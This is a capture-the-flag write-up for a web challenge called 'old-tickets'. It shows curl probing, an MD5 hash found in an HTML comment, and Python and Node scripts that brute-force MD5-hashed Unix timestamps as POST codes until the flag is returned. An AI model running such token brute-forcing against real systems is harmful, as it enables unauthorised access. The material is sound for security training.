




# old-tickets

[Challenge link ↗](https://app.cyber-edu.co/challenges/b0461650-0655-11ec-bc2e-a733a5b78146?tenant=cyberedu)

For this challange we need to interact with a web server, that is opening up on demand.

```
curl -X OPTIONS http://34.40.108.149:30702 -i

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Allow: POST, PUT, HEAD, GET, OPTIONS
Content-Length: 0
Server: Werkzeug/2.0.1 Python/3.6.9
Date: Mon, 30 Mar 2026 11:08:00 GMT
```

First thing, I inspect the headers and allowed methods.
I also greped to see if any comments are embedded in the HTML and now we have one extra piece of information to work with.

```
curl http://34.40.108.149:30702/ | grep -o '<!--.*-->'
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                Dload  Upload   Total   Spent    Left  Speed
100  2171  100  2171    0     0  26090      0 --:--:-- --:--:-- --:--:-- 25845
<!-- Our first bug was: d63af914bd1b6210c358e145d61a8abc. Please fix now! -->
```

Spinning up the docker kali container and using hashid we can see that its most likely and MD5 hash.

```
┌──(root㉿feca915ab14e)-[/]
└─# hashid d63af914bd1b6210c358e145d61a8abc
Analyzing 'd63af914bd1b6210c358e145d61a8abc'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```

In the meantime I opened up burp and sent a random POST request for which I received a 500 Internal Server Error and a HTML response.


I opened the response in the browser, and saw a snippet of code which is awaiting a code to be sent with the POST.


So this time I modified the POST body to be `code=d63af914bd1b6210c358e145d61a8abc`.

The new response confirmed that we are on a good path, since we got a 200 OK status code for our request, but something is not quite right.


The hash is most likely an MD5, so using an free online hash decoder got us the decoded value `1628168161`
This does look like a timestamp, so I tried to find out what date it is. It is almost the beginning of unix time, so not very helpfull, but since in the original commend it was stated that this was the very first bug, I will try to test more hashes.


For this I will write a small script what will

- increment the timestamp with 1
- compute the new hash with md5
- send the request and check if somewhere in the response we get any line containing `ctf`

Python version

```
import requests
from hashlib import md5
import re

url = "http://34.40.108.149:30702"
timestamp = 1628168161

got_ctf = False

trying_timestemp = timestamp + 1
while not got_ctf:
  code = md5(str(trying_timestemp).encode('utf-8')).hexdigest()
  data = {"code": code}
  r = requests.post(url, data=data)

  print(f"Trying code: {code}")

  pattern = r'ctf\{[0-9a-fA-F]{64}\}'
  match = re.search(pattern, r.text)
  if match:
      print(trying_timestemp)
      print(match.group())
      got_ctf = True
  else:
      print("No match found.")
      trying_timestemp += 1
```

and Node version

```
const http = require("node:http");
const crypto = require("node:crypto");

async function run() {
  let newTimestamp = 1628168161;
  let flagNotFound = true;

  while (flagNotFound) {
    let code = crypto
      .createHash("md5")
      .update("" + newTimestamp)
      .digest("hex");

    try {
      let r = await getResponseForCode("http://34.118.247.81:30857/", code);
      let match = r.match(/ctf\{[0-9a-fA-F]{64}\}/);
      if (match) {
        console.log("Flag found:", match[0]);
        flagNotFound = false;
        break;
      } else {
        console.log("No flag found for this code: ", code);
      }
    } catch (err) {
      console.error("Error:", err);
      break;
    }
    newTimestamp++;
  }
}

function getResponseForCode(url, code) {
  return new Promise((resolve, reject) => {
    const req = http.request(
      url,
      {
        method: "POST",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded",
          Connection: "keep-alive",
        },
      },
      (res) => {
        let data = "";
        res.on("data", (chunk) => {
          data += chunk;
        });
        res.on("end", () => {
          resolve(data);
        });
      },
    );
    req.write(`code=${code}`);

    req.on("error", (err) => {
      console.error("Request error:", err);
      reject(err);
    });

    req.end();
  });
}

run();
```

This bruteforce method seems to have been enough, because it produced the flag.
